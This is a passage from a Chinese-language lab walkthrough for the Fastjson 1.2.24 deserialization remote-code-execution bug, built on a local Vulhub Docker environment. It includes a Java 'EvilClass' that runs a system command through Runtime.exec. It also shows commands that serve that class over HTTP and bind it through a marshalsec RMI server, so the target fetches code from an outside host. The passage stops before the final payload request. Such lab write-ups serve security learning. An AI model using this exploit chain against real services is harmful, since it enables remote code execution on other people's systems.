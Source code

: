 1.2.48 版本以下通杀的:

漏洞具体分析可以读一下:[FastJson最新反序列化漏洞分析](https://xz.aliyun.com/t/5680)

fastjson 反序列化漏洞其实很有意思,让人觉得很神奇吧。

后面如果分析的话，我会插入一些关于这个点的讲解。

**这里我们采取Vulnhub环境来搭建相关漏洞环境**

[fastjson 1.2.24 反序列化导致任意命令执行漏洞](https://vulhub.org/#/environments/fastjson/1.2.24-rce/)

1.下载vulnhub

`git clone https://github.com/vulhub/vulhub.git`

2.进入fastjson相应漏洞的复现环境

`cd ./vulhub/fastjson/1.2.24-rce`

3.启动docker

`docker-compose up -d`

4.访问vuln url

`http://127.0.0.1:8090`

5.burp捕捉相关数据包

```
curl http://127.0.0.1:8090 --proxy 127.0.0.1:8080  -H "Content-Type: application/json" --data '`{`"name":"hello", "age":20`}`'
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200408193349091.png)

6.编译恶意类

```
import java.lang.Runtime;
import java.lang.Process;

public class EvilClass `{`
    static `{`
        try `{`
            Runtime rt = Runtime.getRuntime();
            String[] commands = `{`"touch", "/tmp/success"`}`;
            Process pc = rt.exec(commands);
            pc.waitFor();
        `}` catch (Exception e) `{`
            // do nothing
        `}`
    `}`
`}`
```

`javac evilClass.java`
1. Python起一个web服务存放恶意类让marshalsec来绑定
```
1.python -m SimpleHTTPServer
# Serving HTTP on 0.0.0.0 port 8000 ...
# 切换到marshalsec的target路径执行
2.java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.65.2:8000/#EvilClass" 9999
```
